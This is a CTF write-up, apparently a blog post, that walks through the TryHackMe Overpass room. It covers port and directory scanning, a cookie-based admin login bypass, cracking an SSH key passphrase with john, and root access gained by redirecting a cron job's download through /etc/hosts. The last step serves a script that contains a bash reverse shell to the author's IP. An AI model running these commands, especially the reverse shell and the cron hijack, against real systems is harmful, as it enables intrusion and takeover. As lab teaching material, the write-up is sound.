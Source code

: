 ```yaml
---
title: Tryhackme-Overpass
layout: post
categories:
- TryHackMe
tag:
- security
- easy
- cron
- owasp top 10
image: assets/img/overpass.png
image_alt: overpass
---
```


Overpass is easy room to get you started in CTF's.

## Recon
The first thing you will do is scan the target ip address to find open ports. We do it using **Nmap**.

```
$nmap -sSV -v 10.8.81.166
```
![nmap](/assets/img/tryhackme/overpass/nmap.png)

As we see here, 2 ports are open. One is HTTP:80 and the other is SSH:22. We can make a few guesses based on this. I think we should somehow find the necessary information for ssh connection from this site. And we have to get into the target machine using ssh. But this is just a guess for now.
Anyway, let's go to the website first and see what's up.

![homepage](/assets/img/tryhackme/overpass/homepage.png)

Overpass bir password manager miş. Ana Sayfada 2 sayfa bağlantısı daha gördük biri "About Us" diğeri "Download" ikisinide inceleyelim.

#### About Us
![aboutus](/assets/img/tryhackme/overpass/aboutus.png)

Here we see a few names that may be useful to us in the future.

#### Download
![download](/assets/img/tryhackme/overpass/download.png)

We see two files here, one is the source code of overpass and the other is the script that runs this code.
We couldn't find much, let's look at the source codes of the pages.

![home](/assets/img/tryhackme/overpass/home_source.png)

This is really fun.
We couldn't find anything remarkable in the source code of the About Us and Downloads pages.

Let's do a gobuster scan to see if there are other pages on the site.
```
$gobuster dir -u 10.10.79.124 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![aboutus](/assets/img/tryhackme/overpass/gobuster.png)

We found an interesting place /admin/ page here, let's examine it.
I tried a few login attempts first, but it didn't work.

![aboutus](/assets/img/tryhackme/overpass/admin.png)

Let's take a look at the source code of the admin page.

![aboutus](/assets/img/tryhackme/overpass/admin_id.png)

Maybe we can brute force using the information here.

![aboutus](/assets/img/tryhackme/overpass/admin_file.png)

And there are several javascript files, let's examine them.
The main.js contains nothing but the hello world output.

![aboutus](/assets/img/tryhackme/overpass/main.png)

Let's examine login.js now.

![aboutus](/assets/img/tryhackme/overpass/login.png)

We found something here. A login function has been placed here. It says that if you enter wrong information, you will get incorrect credentials, but if it is entered correctly, cookie settings will be set as SessionToken and status0Cookie. Let's try to login using this cookie information.

![aboutus](/assets/img/tryhackme/overpass/settings.png)

After entering the information, we refresh the page and we are inside.
We come across an SSH key, but there is an article before it.

![aboutus](/assets/img/tryhackme/overpass/admin_on.png)

Paradox was annoyed that James kept forgetting the password. And as punishment, he wrote the password as SSH Key.

![aboutus](/assets/img/tryhackme/overpass/ssh.png)

Let's find james' SSH password.
To crack the password of an rsa key, we need to follow these steps.
We create id_rsa file using **nano**. Copy and paste the rsa private key information into it. Then we change the permission settings using **chmod** so that ssh can use it.
Then we use **ssh2john** to bring this ssh key in a way that joh can crack, and then we find the password using **john**.

```
$nano id_rsa
$chmod 600 id_rsa
$ssh2john id_rsa > hash.txt
$john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

And we find the password **james13**
Now we can connect to james using this information.

```
$ssh -i id_rsa james@10.10.79.124
```

And we're inside

![aboutus](/assets/img/tryhackme/overpass/james.png)

Let's see what's in james' folder.

```
ls -la
```

![aboutus](/assets/img/tryhackme/overpass/ls.png)

There are a few files that caught our attention **todo.txt, user.txt**
user.txt : user flag

![aboutus](/assets/img/tryhackme/overpass/user_flag.png)

Now let's take a look at todo.txt.

![aboutus](/assets/img/tryhackme/overpass/todo.png)

Important things are being talked about here. James keeps a password around here, but he said he used his own password manager.
There was something he wanted to talk to Pardox about. He also says how the build script works automatically in the system.

I examined the files again using `ls -la` and there is another file called .overpass, and when I looked inside, I found something like this.

![aboutus](/assets/img/tryhackme/overpass/pass.png)

This must be the password that James mentioned in todo.txt, but we don't know how he encrypted it. But he told us they did it using their own password manager. So why don't we go back to the website and examine the source code of the overpass?
What I noticed when I reviewed the code is this.

![aboutus](/assets/img/tryhackme/overpass/source.png)

The algorithm they use according to the code they wrote is `rotate-47`

![aboutus](/assets/img/tryhackme/overpass/rot.png)

And here we found a password but I didn't understand where to put it.

But if we need to go back to todo.txt, James was talking about the continuous and automatic loading of the application there, why don't we look at the cronjob.

```
$cat /etc/crontab
```

![aboutus](/assets/img/tryhackme/overpass/cron.png)

And here we get important information. As we can see, the root user automatically runs the file overpass.thm/downloads/src/buildscript.sh as **cronjab**.
In other words, a bash file is running automatically in the system, if we can change this file, we can place our own reverse shell.
I tried to open and change the file several times, but I couldn't do anything because it exceeded my authorization limits. But there was one thing I missed, overpass.thm is a hostname and if we manage to change this hostname and enter our own machine information, I can run my own buildscript.sh file.
For this I first check the contents of /etc/hosts.

![aboutus](/assets/img/tryhackme/overpass/hosts.png)

Interestingly, James has the ability to modify this file.
Using my own machine ip, I change the overpass.thm line to` "10.8.81.166 overpass.thm"`
Then I will do the following in order on my own machine. I will create the /downloads/src/buildscript.sh file. And I will write revershell inside this file, then I will open an http.server just outside the downloads folder. At the same time, I will open a listener for nc using the same port as the port I entered in revershell. Then cronjab will connect to my machine and get the downoads/src/buildscript.sh file and then run it. The revershell inside it will also work and boom we'll go inside.

`buildscript.sh:  bash -i >& /dev/tcp/10.8.81.166/4444 >&1`

```
$mkdir downloads
$cd downloads
$mdir src
$cd src
$nano buildscript.sh
$cd ../..
$python3 -m http.server 80
```

```
nc -nlvp 4444
```
We are inside.

![aboutus](/assets/img/tryhackme/overpass/root.png)

And root flag .

![aboutus](/assets/img/tryhackme/overpass/root_flag.png)


It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care
